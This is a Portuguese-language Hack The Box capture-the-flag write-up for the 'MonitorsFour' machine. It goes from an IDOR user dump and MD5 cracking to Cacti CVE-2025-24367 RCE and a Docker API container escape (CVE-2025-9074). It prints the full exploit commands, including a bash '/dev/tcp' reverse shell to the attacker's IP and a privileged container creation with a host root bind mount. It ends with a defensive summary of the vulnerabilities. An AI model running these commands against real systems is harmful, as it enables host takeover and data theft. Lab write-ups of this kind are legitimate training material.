# Hack The Box — MonitorsFour


-blue)


---

# Informações da Máquina

| Nome | Dificuldade | Plataforma | OS |
| ---- | ----------- | ---------- | -- |
| MonitorsFour | Easy | Hack The Box | Windows (Docker Desktop / WSL2) |

---

# Superfície de ataque

1. Enumeração inicial com Nmap
2. Identificação de aplicação PHP atrás de Nginx + WinRM
3. Enumeração do site principal e descoberta do endpoint `/user`
4. Exploração de IDOR via `token=0` e dump completo da tabela de usuários
5. Crack do hash MD5 do admin via CrackStation
6. Fuzzing de virtual hosts e descoberta do subdomínio `cacti.monitorsfour.htb`
7. Login no Cacti 1.2.28 como `marcus:wonderful1`
8. Exploração da CVE-2025-24367 (Cacti Graph Template RCE)
9. Foothold como `www-data` dentro de um container Docker
10. Identificação do ambiente containerizado (Docker Desktop + WSL2)
11. Scan da subnet `192.168.65.0/24` em busca da Docker API
12. Abuso da CVE-2025-9074 — Docker API exposta sem autenticação na porta 2375
13. Criação de container privilegiado com bind mount em `/`
14. Reverse shell como `root` no container e leitura da `root.txt` no `C:\` da máquina Windows

---

# Reconhecimento

A enumeração inicial foi feita com Nmap para identificar portas abertas, versões dos serviços e o tipo de host alvo.

```
nmap -sC -sV -A -T4 10.129.59.22
```



O scan revelou apenas duas portas abertas, o que reduz bastante a superfície inicial:

- **80/tcp — HTTP**: nginx, com redirect para `http://monitorsfour.htb/`
- **5985/tcp — WinRM**: Microsoft HTTPAPI httpd 2.0

A combinação `nginx + Microsoft-HTTPAPI/2.0 + 5985` é peculiar: o serviço web é Linux-style (nginx) mas a porta WinRM é tipicamente Windows. Esse foi o primeiro indício de que a máquina poderia estar rodando containers em cima de um host Windows. O `/etc/hosts` foi atualizado:

```
10.129.59.22 monitorsfour.htb cacti.monitorsfour.htb
```

---

# Enumeração Web

Acessando `http://monitorsfour.htb`, a página exibe um site corporativo de uma empresa fictícia chamada MonitorsFour, oferecendo "soluções de rede".



A landing page tem links para `Home`, `About Us`, `Services`, `Pricing` e um botão de `Login` no canto superior direito. O botão de login leva para uma tela com formulário de credenciais bem padrão.



Sem credenciais, o caminho foi partir para fuzzing de diretórios e endpoints.

---

# Fuzzing de Diretórios

Com `ffuf` e a wordlist `Web-Content/big.txt` do SecLists, o fuzzing identificou alguns endpoints relevantes:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt \
     -u http://monitorsfour.htb/FUZZ -mc 200
```



Resultados:

```
contact            [Status: 200, Size: 367]
forgot-password    [Status: 200, Size: 3099]
login              [Status: 200, Size: 4340]
user               [Status: 200, Size: 35]
```

O endpoint `/user` chamou atenção: resposta de apenas 35 bytes com status 200, o que é um tamanho minúsculo e sugere uma resposta JSON pequena. Acessando direto:

```
curl http://monitorsfour.htb/user
{"error":"Missing token parameter"}
```

A API espera um parâmetro `token`. Esse é exatamente o tipo de endpoint onde IDOR costuma aparecer.

---

# IDOR — Vazamento da Tabela de Usuários

Testando valores comuns para o `token` (`1`, `2`, `admin`, etc.), nenhum funcionava. O truque clássico de IDOR é testar valores de borda — `0`, `-1`, `null`, string vazia. O valor `0` retornou o jackpot:

```
curl -X GET 'http://monitorsfour.htb/user?token=0'
```



A resposta foi um JSON com a tabela inteira de usuários, incluindo hashes MD5 das senhas:

```json
[
  {
    "id": 2,
    "username": "admin",
    "email": "admin@monitorsfour.htb",
    "password": "56b32eb43e6f15395f6c46c1c9e1cd36",
    "role": "super user",
    "name": "Marcus Higgins",
    "position": "System Administrator"
  },
  {
    "id": 5,
    "username": "mwatson",
    "password": "69196959c16b26ef00b77d82cf6eb169",
    "name": "Michael Watson"
  },
  {
    "id": 6,
    "username": "janderson",
    "password": "2a22dcf99190c322d974c8df5ba3256b",
    "name": "Jennifer Anderson"
  },
  {
    "id": 7,
    "username": "dthompson",
    "password": "8d4a7e7fd08555133e056d9aacb1e519",
    "name": "David Thompson"
  }
]
```

IDOR clássico: nenhuma autenticação, e o valor `0` provavelmente faz match com um cast implícito de string para inteiro, retornando todas as linhas. Quatro hashes MD5 prontos para crack.

---

# Crack dos Hashes

Os hashes foram lançados no [CrackStation](https://crackstation.net/), que tem um banco enorme de hashes pré-computados.



Apenas o hash do `admin` (Marcus Higgins) bateu com a base:

```
56b32eb43e6f15395f6c46c1c9e1cd36 → wonderful1
```

Os demais hashes não foram quebrados, o que sugere senhas mais fortes ou customizadas. Mas para o que precisamos, basta esse.

**Credencial obtida:** `admin:wonderful1`

Tentar `admin:wonderful1` no login do site principal não funcionou. A pista estava no campo `name` do JSON: o admin se chama **Marcus Higgins**. Tentando o primeiro nome como username:

```
marcus:wonderful1
```

Mais sobre isso na próxima seção — a credencial não é para o site principal, é para outro lugar.

---

# Enumeração de Subdomínios

Com pouca coisa a explorar no domínio principal, o próximo passo foi VHost fuzzing. Aplicações maiores costumam ter subdomínios escondidos com painéis administrativos ou ferramentas internas.

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u http://monitorsfour.htb \
     -H "Host: FUZZ.monitorsfour.htb" -ac
```



Resultado:

```
cacti    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 171ms]
```

Foi descoberto o subdomínio `cacti.monitorsfour.htb`. Cacti é uma ferramenta open-source de monitoramento de rede com histórico extenso de CVEs críticas, então isso virou imediatamente o principal vetor de ataque.

Adicionando ao `/etc/hosts`:

```
10.129.59.22 monitorsfour.htb cacti.monitorsfour.htb
```

Acessando `http://cacti.monitorsfour.htb`:



Uma tela de login do Cacti versão **1.2.28**, conforme o rodapé.

---

# Login no Cacti

Tentando `admin:wonderful1` — falha. Mas como descoberto antes, o nome do admin é Marcus Higgins. Tentando variações:

```
marcus:wonderful1  →  ✓ funcionou
```

Esse é um padrão comum em aplicações que aceitam o primeiro nome ou o nome de exibição como login alternativo. Sempre vale testar variações quando o `username` direto falha.

Já dentro do Cacti, a versão é confirmada como **1.2.28** no painel.

---

# CVE-2025-24367 — Cacti Graph Template RCE

A versão 1.2.28 do Cacti é vulnerável à [CVE-2025-24367](https://nvd.nist.gov/vuln/detail/CVE-2025-24367), uma RCE pós-autenticação que abusa da funcionalidade de Graph Templates. A ideia é criar um template malicioso que escreve um arquivo PHP no webroot e depois aciona sua execução.

Existe um PoC público mantido por TheCyberGeek:

```
git clone https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC.git
cd CVE-2025-24367-Cacti-PoC
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt
```

O exploit precisa subir um servidor HTTP na porta 80 para servir o payload, então tem que rodar com `sudo`. Em outro terminal, listener:

```
nc -lvnp 1337
```

E o exploit:

```
sudo python3 exploit.py \
    -url http://cacti.monitorsfour.htb \
    -u marcus -p wonderful1 \
    -i 10.10.14.228 -l 1337
```



Saída:

```
[+] Cacti Instance Found!
[+] Serving HTTP on port 80
[+] Login Successful!
[+] Got graph ID: 226
[i] Created PHP filename: tX543.php
[+] Got payload: /bash
[i] Created PHP filename: 1U1Rq.php
[+] Hit timeout, looks good for shell, check your listener!
[+] Stopped HTTP server on port 80
```

E no listener:



```
listening on [any] 1337 ...
connect to [10.10.14.228] from (UNKNOWN) [10.129.59.22] 53540
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
www-data@821fbd6a43fa:~/html/cacti$
```

Shell como `www-data`. O hostname `821fbd6a43fa` chama atenção imediatamente — esse é um padrão de container ID truncado, o que confirma que estamos dentro de um container Docker, não no host real.

---

# Flag de Usuário

Apesar de estar como `www-data` em um container, a `user.txt` está em `/home/marcus` e tem permissão de leitura para todos:

```
www-data@821fbd6a43fa:~/home/marcus$ ls
user.txt
www-data@821fbd6a43fa:~/home/marcus$ cat user.txt
```



```
940f72dfeca5f123ffa4e4e2b42fa0db
```

---

# Identificando o Ambiente

Com a flag de user na mão, é hora de mapear o ambiente para escalar privilégios. Várias evidências confirmam que estamos em um container:

```
www-data@821fbd6a43fa:~/html/cacti$ ip addr
2: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 ...
    inet 172.18.0.3/16 brd 172.18.255.255 scope global eth0

www-data@821fbd6a43fa:~/html/cacti$ ip route
default via 172.18.0.1 dev eth0
172.18.0.0/16 dev eth0 proto kernel scope link src 172.18.0.3
```



A interface `eth0` está na rede `172.18.0.0/16`, que é uma bridge típica do Docker. O arquivo `/.dockerenv` também está presente, o que é o indicador definitivo de container. Como o Nmap original sugeriu Windows e o WinRM está aberto na porta 5985, mas estamos em um container Linux, a única configuração que faz sentido é **Docker Desktop rodando em cima de WSL2 em uma máquina Windows**.

A primeira tentativa foi acessar a Docker API pelo gateway e pelo `host.docker.internal`:

```
www-data@...$ curl http://172.18.0.1:2375/version
curl: (7) Failed to connect to 172.18.0.1 port 2375: Connection refused

www-data@...$ curl -v http://host.docker.internal:2375/version
* IPv4: 192.168.65.254
* connect to 192.168.65.254 port 2375 ... Connection refused
```

Connection refused em `192.168.65.254` — mas isso entrega informação preciosa: **a subnet do Docker Desktop é `192.168.65.0/24`**. A API não está em `.254`, mas pode estar em outro IP da mesma subnet.

Também foi verificado se o socket do Docker estava montado:

```
www-data@...$ ls -la /var/run/docker.sock 2>/dev/null
www-data@...$ find / -name "docker.sock" 2>/dev/null
(nada)
```

Sem socket montado. O caminho é via API HTTP.

---

# Localizando o Docker API (CVE-2025-9074)

A [CVE-2025-9074](https://nvd.nist.gov/vuln/detail/CVE-2025-9074) (CVSS 9.3) é uma vulnerabilidade crítica do Docker Desktop onde containers Linux conseguem alcançar a API da Docker Engine pela subnet interna **sem autenticação alguma**, na porta 2375. Isso acontece independentemente de a opção "Expose daemon on tcp://localhost:2375 without TLS" estar ativada.

Um one-liner em bash varrendo a subnet inteira:

```
for i in $(seq 1 254); do
  (curl -s --connect-timeout 1 http://192.168.65.$i:2375/version 2>/dev/null \
   | grep -q "ApiVersion" && echo "192.168.65.$i:2375 OPEN") &
done; wait
```



Resultado:

```
192.168.65.7:2375 OPEN
```

Bingo. O Docker daemon está exposto sem autenticação em `192.168.65.7`.

---

# Enumeração da Docker API

Confirmando que é mesmo a Docker API e checando a versão:

```
www-data@...$ curl http://192.168.65.7:2375/version
```



```json
{
  "Platform": {"Name":"Docker Engine - Community"},
  "Version": "28.3.2",
  "ApiVersion": "1.51",
  "KernelVersion": "6.6.87.2-microsoft-standard-WSL2",
  "Os": "linux",
  "Arch": "amd64"
}
```

A `KernelVersion` confirma WSL2, fechando a hipótese de Docker Desktop em Windows.

Listando as imagens disponíveis:

```
www-data@...$ curl -s http://192.168.65.7:2375/images/json | grep -o '"RepoTags":\[[^]]*\]'

"RepoTags":["docker_setup-nginx-php:latest"]
"RepoTags":["docker_setup-mariadb:latest"]
"RepoTags":["alpine:latest"]
```

Listando os containers em execução:

```
www-data@...$ curl http://192.168.65.7:2375/containers/json
```



A resposta revelou dois containers em execução (`web` e `mariadb`) e, mais importante, expôs labels do Docker Compose com o caminho completo no host:

```
"com.docker.compose.project.config_files":
  "C:\\Users\\Administrator\\Documents\\docker_setup\\docker-compose.yml"
"com.docker.compose.project.working_dir":
  "C:\\Users\\Administrator\\Documents\\docker_setup"
```

Confirmação final: o host é Windows, e o usuário administrador é `Administrator`. A flag de root vai estar em `C:\Users\Administrator\Desktop\root.txt`.

---

# Container Escape — Privileged + Bind Mount

Com acesso total à Docker API sem autenticação, podemos criar um container com qualquer configuração. Os flags-chave são:

- **`Binds: ["/:/host"]`** — monta o filesystem raiz do host Docker em `/host` dentro do container. Como o Docker Desktop em Windows usa WSL2, esse `/` na verdade já é a VM WSL, e o disco `C:` do Windows fica visível em `/mnt/host/c/`.
- **`Privileged: true`** — concede todas as capabilities ao container.

Primeiro, listener no Kali:

```
nc -lvnp 4449
```

Em seguida, criação do container via API a partir do shell `www-data`:

```
www-data@...$ curl -X POST -H "Content-Type: application/json" \
  http://192.168.65.7:2375/containers/create \
  -d '{
    "Image": "docker_setup-nginx-php",
    "Cmd": ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.228/4449 0>&1"],
    "HostConfig": {
      "Binds": ["/:/host"],
      "Privileged": true
    },
    "Tty": true,
    "AttachStdin": true,
    "AttachStdout": true,
    "AttachStderr": true,
    "OpenStdin": true
  }'
```



Resposta:

```
{"Id":"4efc88a6fae2a56f38503a86801e5444340ab0fdfc0b53294756de877c06e5bd","Warnings":[]}
```

Iniciando o container:

```
www-data@...$ curl -X POST http://192.168.65.7:2375/containers/4efc88a6fae2a56f38503a86801e5444340ab0fdfc0b53294756de877c06e5bd/start
```

E no listener:



```
listening on [any] 4449 ...
connect to [10.10.14.228] from (UNKNOWN) [10.129.59.22] 53553
root@4efc88a6fae2:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```

Shell de `root` no container privilegiado, com o filesystem do host inteiro montado em `/host`.

---

# Flag de Root

Navegando até o `C:\` do Windows através do bind mount:

```
root@4efc88a6fae2:/var/www/html# ls /host/mnt/host/c/Users/Administrator/Desktop
desktop.ini
root.txt

root@4efc88a6fae2:/var/www/html# cat /host/mnt/host/c/Users/Administrator/Desktop/root.txt
```



```
dcf0e428e070a241eff5d761d72f190a
```

A estrutura de paths do Docker Desktop em Windows fica empilhada assim:

```
/                          ← raiz do container privilegiado
/host                      ← raiz da VM WSL2 (ponto de montagem do bind)
/host/mnt/host/c           ← drive C: do Windows host
/host/mnt/host/c/Users/Administrator/Desktop/root.txt   ← root flag
```

---

# Vulnerabilidades Identificadas

### IDOR no endpoint `/user`

O endpoint `/user?token=0` retorna a tabela inteira de usuários do banco, incluindo hashes de senha, sem nenhuma autenticação. O valor `0` provavelmente decorre de um cast implícito de string para inteiro na query, que faz match com todas as linhas. Endpoints que aceitam IDs ou tokens devem (1) exigir autenticação, (2) validar que o token corresponde ao usuário autenticado, e (3) tratar valores de borda (`0`, `null`, negativos, vazio) explicitamente.

### Hashes MD5 sem salt

As senhas estavam armazenadas em MD5 sem salt — algoritmo considerado quebrado há mais de uma década e trivialmente vulnerável a rainbow tables. Senhas devem ser armazenadas com algoritmos modernos de hashing como bcrypt, scrypt ou Argon2, com salt único por usuário.

### Cacti 1.2.28 vulnerável à CVE-2025-24367

A versão do Cacti em produção estava sem patch para a CVE-2025-24367. Software de monitoramento normalmente roda com privilégios elevados e em redes internas — manter atualizado é crítico. Versões 1.2.29 ou superiores corrigem essa falha.

### Username login pelo primeiro nome

A aplicação Cacti aceitava `marcus` como login válido para o usuário cujo username configurado era `admin`. Isso amplia a superfície para ataques de brute-force e credential stuffing, já que aumenta os identificadores válidos por conta.

### Docker API exposta sem autenticação (CVE-2025-9074)

A Docker Engine API estava acessível em `192.168.65.7:2375` a partir de qualquer container na subnet interna do Docker Desktop, sem TLS e sem autenticação. Isso é equivalente a dar acesso root ao host inteiro para qualquer um que comprometa qualquer container. O Docker Desktop deve ser atualizado para versão patcheada e a opção "Expose daemon on tcp://localhost:2375 without TLS" deve permanecer desabilitada.

### Container com possibilidade de criar containers privilegiados

Mesmo que o container `web` original não fosse privilegiado, o acesso à Docker API permitiu criar **outro** container com `Privileged: true` e `Binds: ["/:/host"]`. Em ambientes endurecidos, a Docker API jamais deve ser acessível a partir de containers de aplicação.

### Information disclosure via labels do Docker Compose

A resposta de `/containers/json` expôs caminhos absolutos do host Windows nos labels (`com.docker.compose.project.working_dir`), facilitando a localização da `root.txt` e da estrutura de arquivos sensíveis do administrador.

---

# Ferramentas Utilizadas

- Nmap
- ffuf (directory + vhost fuzzing)
- curl
- CrackStation (online MD5 lookup)
- [CVE-2025-24367-Cacti-PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC)
- netcat
- Docker Engine API (HTTP direto)

---

# Principais Aprendizados

- IDOR com valor `0` é um ponto cego clássico — sempre testar valores de borda (`0`, `-1`, `null`, string vazia) ao fuzzar parâmetros de ID/token, não só `1`, `2`, `3`.
- Username ≠ login name. Quando o login direto pelo username falha, vale testar variações: primeiro nome, sobrenome, prefixo do email, display name. Aplicações enterprise frequentemente aceitam múltiplos identificadores.
- O hostname dentro de uma shell remota é um sinal poderoso. IDs hexadecimais curtos (12 caracteres) quase sempre indicam container Docker. O arquivo `/.dockerenv` é a confirmação definitiva.
- Quando o Nmap acusa Windows e a shell que você conseguiu é Linux, o cenário mais comum hoje é **Docker Desktop sobre WSL2** — vale checar essa hipótese imediatamente.
- A Docker Engine API exposta sem TLS na porta 2375 é compromisso total do host, não só de containers. Sempre vale escanear a subnet interna do Docker Desktop (`192.168.65.0/24`) procurando essa porta a partir de um container.
